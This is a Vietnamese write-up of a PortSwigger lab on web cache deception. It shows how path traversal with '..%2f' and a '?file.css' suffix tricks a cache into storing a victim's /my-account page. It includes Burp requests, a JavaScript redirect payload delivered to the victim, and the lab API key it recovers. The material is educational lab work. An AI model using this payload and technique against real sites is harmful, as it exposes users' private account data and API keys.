








# Write-up: Exploiting origin server normalization for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do cơ chế chuẩn hóa (normalization) của origin server, sử dụng path traversal (`../`) và tham số `?` để lừa hệ thống cache lưu trữ trang `/my-account` của tài khoản carlos dưới dạng file tĩnh, lấy API key của `carlos` và submit key để hoàn thành lab.

### Mục tiêu 
- Khai thác web cache deception thông qua path traversal và tham số `?` để lấy API key của tài khoản `carlos` và submit key để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`, quan sát yêu cầu:
    `GET /my-account HTTP/2`
    - Thử path traversal trong Burp Repeater:
        `GET /my-account../profile.cs`
        - **Phản hồi**: `404 Not Found`, cho thấy `/my-account../profile.cs` không hợp lệ:
            

- Dò ký tự đặc biệt bằng Burp Intruder:
    `GET /my-account§../§profile.cs HTTP/2`
    - **Kết quả**: Ký tự `?` được server chấp nhận nhưng không có header X-Cache: `miss` hoặc `hit`:
        

- Quan sát cache với file tĩnh:
    `GET /resources/js/tracking.js`
    - **Phản hồi**: `X-Cache: miss`, gợi ý hệ thống cache hoạt động với file tĩnh
        

- Thử cache với path traversal:
    `GET /resources/..%2fmy-account?profile.cs`
    - Lần 1: **Phản hồi**: `X-Cache: miss`, nội dung chưa được cache.
        
    - Lần 2: **Phản hồi**: `X-Cache: hit`, xác nhận hệ thống cache lưu trữ nội dung /my-account dưới dạng file tĩnh:
        

    - **Quan sát**: Path traversal (`../`) và tham số `?profile.cs` khiến server chuẩn hóa URL thành `/my-account`, nhưng cache lưu trữ như file tĩnh, gợi ý khả năng web cache deception.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để lừa nạn nhân (carlos) truy cập URL:
    ```Java
    <script>document.location="https://lab-id.web-security-academy.net/resources/..%2fmy-account?12345.css"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng "Deliver exploit to victim":
        

- Kiểm tra cache để lấy nội dung trang `/my-account` của carlos:
    `GET /resources/..%2fmy-account?12345.css`
    - `Phản hồi`: X-Cache: hit, trả về trang `/my-account` của carlos, chứa API key `5rIy46kpP63WgwCLsqZtlVhs5AEEIQeo`:
        

- Submit API key `5rIy46kpP63WgwCLsqZtlVhs5AEEIQeo` qua chức năng submit của lab :
    

- **Giải thích**: Lỗ hổng web cache deception xảy ra do origin server chuẩn hóa `/resources/..%2fmy-account?12345.css` thành `/my-account`, nhưng hệ thống cache lưu trữ URL dưới dạng file tĩnh, cho phép truy xuất API key của carlos mà không cần xác thực.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng path traversal (../) và tham số ? để lừa hệ thống cache lưu trữ trang nhạy cảm.
- Nhận thức tầm quan trọng của việc kiểm tra cơ chế chuẩn hóa URL và cấu hình cache an toàn để ngăn chặn web cache deception.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception thông qua cơ chế chuẩn hóa của origin server, lấy API key của người dùng, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*